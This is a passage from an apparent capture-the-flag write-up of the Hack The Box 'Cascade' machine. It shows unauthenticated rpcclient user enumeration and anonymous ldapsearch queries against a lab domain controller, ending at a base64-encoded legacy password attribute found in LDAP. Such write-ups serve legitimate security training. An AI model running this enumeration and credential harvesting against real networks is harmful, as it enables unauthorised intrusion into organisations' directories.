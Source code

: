 ~~~
|_  start_date: 2020-07-16T08:57:25

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 16 15:38:33 2020 -- 1 IP address (1 host up) scanned in 219.14 seconds
~~~
{: .language-bash}
I like to see if i can connect to the RPC service without authentication because i like to enumerate users via RPC if possible.

~~~
kali@kali:~/boxes/cascade/$ rpcclient 10.10.10.182 -U ‘’    
Enter WORKGROUP\'s password: <enter>

rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
~~~
{: .language-bash}
I was able to connect without authentication, and using the command *enumdomusers* i managed to make a list of possible users. I could also get a list of all groups in the domain, but nothing more interesting from RPC, so i switched over to ldap-enumeration using **ldapsearch**. 

~~~
kali@kali:~$ ldapsearch -LLL -x -H ldap://10.10.10.182/ -b '' -s base '(objectclass=*)

serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Conf
 iguration,DC=cascade,DC=local

~~~
{: .language-bash}
~~~
kali@kali:~$ ldapsearch -LLL -x -H ldap://cascade.local -b 'dc=cascade,dc=local'
---snip---
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local                                                              
objectClass: top                                                                                                     
objectClass: person                                       
objectClass: organizationalPerson                        
objectClass: user                                                                                                    
cn: Ryan Thompson                                         
sn: Thompson                                                                                                         
givenName: Ryan                                                                                                      
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
---snip---
cascadeLegacyPwd: clk0bjVldmE= 
~~~
{: .language-bash}